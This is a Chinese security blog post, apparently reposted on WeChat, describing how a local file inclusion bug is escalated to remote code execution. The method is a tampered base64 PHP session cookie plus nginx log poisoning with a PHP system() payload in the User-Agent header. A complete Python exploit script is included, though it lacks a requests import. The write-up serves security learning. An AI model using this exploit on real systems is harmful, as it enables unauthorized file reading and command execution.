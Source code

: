 #  由本地文件包含所引起的RCE   
Facundo  迪哥讲事   2023-11-23 19:52  
  
## 发现端倪  
  
在某个网络应用程序上进行长达数小时的信息收集及‘侦查’后，发现一处Cookie有些异常。  
> PHPSESSID — PHPSESSID Cookie是PHP原生的，它使网站能够存储序列化的状态数据。它用于建立用户会话并通过临时cookie传递状态数据，通常称为会话cookie（在关闭浏览器时过期）。通常以Base64编码。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbafHtQMXA0icLnMh7Xv4mKa6vKzlxoNhgeb8vLicciaLFicWvSB5PU0SZ3w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbC3noicq981QJenU229Xjubhhxj6FRIb9yK6lPeRibcYyWxEsS0XI4vjA/640?wx_fmt=png&from=appmsg "")  
  
  
提示：尽量尝试解码一切可以解码的东西  
  
可以使用在线网站，如base64decode.org进行解码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbIhWXoEgPQlPRwCDCHJicLSK8whpL6ibrsPKvTUzlcO3jK379gkHhb7Iw/640?wx_fmt=png&from=appmsg "")  
  
也可通过Python解码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrb5WPrXVcoFia9XPVGkbrHBxAkG7GofOIvqhLUIV9P1u6iaVZibbiaKCl4PQ/640?wx_fmt=png&from=appmsg "")  
  
为什么s=15？那是因为/www/index.html  
 的长度刚好是15  
## LFI漏洞  
  
什么是LFI？  
> Local File Inclusion(本地文件包含)是一种攻击技术，攻击者可以欺骗Web应用程序在Web服务器上运行或暴露文件。LFI攻击可能会暴露敏感信息，在严重的情况下，它们可能会导致跨站点脚本（XSS）和远程代码执行。  
  
  
如果用/etc/passwd替换/www/index.html后会发生什么？  
  
  
  
通过python将修改后的Cookie发送，看看结果：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbfkgHBUlpaOnTxMHlTq6m7OB6Kt2R1DkxibUUyKtd6VAdvBjS2H9WyKg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbib2rbQzYpYecqbhvuibyNDMPpxXjSZPdTBMWYwk0IovgGd2ZfcamznEw/640?wx_fmt=png&from=appmsg "")  
  
也可以通过Burp来修改Cookie：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbI1dMtBtypmN1xnanp2wUzFLoQiaO9WoN4icHyu0QnFLBwFHBggbEFzcA/640?wx_fmt=png&from=appmsg "")  
  
  
  
还有一种方式是更改网站上的cookie:  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbUzgia1ZamM4To6QWzZBVibL80VVicCfy3j0S87FNtYgjkXHcAV4EgfYNw/640?wx_fmt=png&from=appmsg "")  
## 从LFI升级至RCE  
> 远程代码执行（RCE）攻击允许攻击者在计算机上远程执行恶意代码。RCE漏洞的影响范围可以从恶意软件执行到攻击者获得对受害机器的完全控制。  
  
  
从LFI漏洞升级到RCE的最简单方法是日志‘投毒’  
> 日志投毒或日志注入是一种允许攻击者篡改日志文件内容的技术，例如将恶意代码插入服务器日志以远程执行命令或反弹Shell。只有当应用程序存在LFI漏洞时，它才有效。  
  
  
在本案例中由于无法获取反弹Shell，因此只能尝试使用 "ls -lsa"-"ls -l" 列出目录。  
  
LFI漏洞只允许读取/执行文件，而无法写入或创建新文件，那么我们要如何注入呢？可以考虑把日志添加到服务器文件中。  
  
下面主要思路就是将日志添加到服务器文件中  
  
首先，我们需要知道服务器是哪种类型：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbdTY6ibKINxMkbQJVhqNa7ibYhICyiacfTDekibOZbaGIu98OUBN7Cm5RUg/640?wx_fmt=png&from=appmsg "")  
  
Nginx！那么日志一般会存放于/var/log/nginx/access.log  
  
同样使用使用Python脚本来尝试访问日志文件：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbOdvhpia2iaqfdsicyegrm9svzXS7wAbp9NCxdBC8uoOGYQgU8x8VJZeFQ/640?wx_fmt=png&from=appmsg "")  
  
  
很好！那么让我们看看是否可以通过使用“User-Agent”来添加日志。  
  
在python脚本中，添加如下内容：  
```
headers = {'User-Agent': 'Facundo Fernandez'}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrb0zqdo4OcVmic0EvAwXcuBtE4c1C1xppdWum9iahmBpJQkHI60iahsRXnw/640?wx_fmt=png&from=appmsg "")  
  
在日志中发现如下信息:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbZWGwVsjW1VWAsibgxM3dZ8wMscWetn4ibYIYbToCAmNMDLjNR13qUicSw/640?wx_fmt=png&from=appmsg "")  
  
尝试改成：  
```
headers = {'User-Agent': "<?php system('ls -lsa');?>"
```  
  
发现代码成功执行！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4D02zFpnnUfPPb2Pl50wrbV25YGgcJ4Abtj9aW4iaADI2nMmSsYVnuJbPVUPu1PUSpCicPibyVibZGyA/640?wx_fmt=png&from=appmsg "")  
  
完整代码如下:  
```
import base64
# Importing the base64 module, which is used for encoding and decoding base64 data.

# Creating a byte string that mimics a serialized PHP object.
# This could be used to exploit object injection vulnerabilities in PHP applications.
malicious_cookie = b'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}'
print('Malicious Cookie:', malicious_cookie)
# Printing the created malicious byte string (cookie) for demonstration.

# Encoding the malicious cookie using base64.
# This is necessary because cookies are usually base64-encoded during HTTP communication.
malicious_cookie_encoded = base64.b64encode(malicious_cookie)
print('Malicious cookie encoded:', malicious_cookie_encoded)
# Printing the base64-encoded version of the malicious cookie.

# Our Target
# This should be a URL under your control or where you have permission to test.
url = 'http://142.93.32.153:31043'

# Creating a cookies dictionary with the 'PHPSESSID' as the key and the encoded malicious cookie as the value.
cookies = {'PHPSESSID': malicious_cookie_encoded.decode()}

# Creating a headers dictionary, attempting to pass PHP code in the User-Agent header.
# The intention here is to test for Remote Code Execution (RCE) by trying to get the server to execute the 'ls' command.
headers = {'User-Agent': "<?php system('ls -lsa');?>"} 

# Sending a GET request to the specified URL with the malicious cookies and headers.
r = requests.get(url, cookies=cookies, headers=headers)
print(r.text)
# Printing the response text from the server.
# If the server is vulnerable and executes the code, you might see the result of the 'ls -lsa' command in the response.
```  
  
如果你是一个长期主义者，欢迎加入我的知识星球([优先查看这个链接，里面可能还有优惠券](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247489122&idx=1&sn=a022eae85e06e46d769c60b2f608f2b8&chksm=e8a61c01dfd195170a090bce3e27dffdc123af1ca06d196aa1c7fe623a8957755f0cc67fe004&scene=21#wechat_redirect)  
)，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
  
[xss研究笔记](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487130&idx=1&sn=e20bb0ee083d058c74b5a806c8a581b3&chksm=e8a604f9dfd18defaeb9306b89226dd3a5b776ce4fc194a699a317b29a95efd2098f386d7adb&scene=21#wechat_redirect)  
  
  
[SSRF研究笔记](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[2022年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
## 福利视频  
  
笔者自己录制的一套php视频教程(适合0基础的),感兴趣的童鞋可以看看,基础视频总共约200多集,目前已经录制完毕,后续还有更多视频出品  
  
https://space.bilibili.com/177546377/channel/seriesdetail?sid=2949374  
## 技术交流  
  
技术交流请加笔者微信:richardo1o1 (暗号:growing)  
  
  
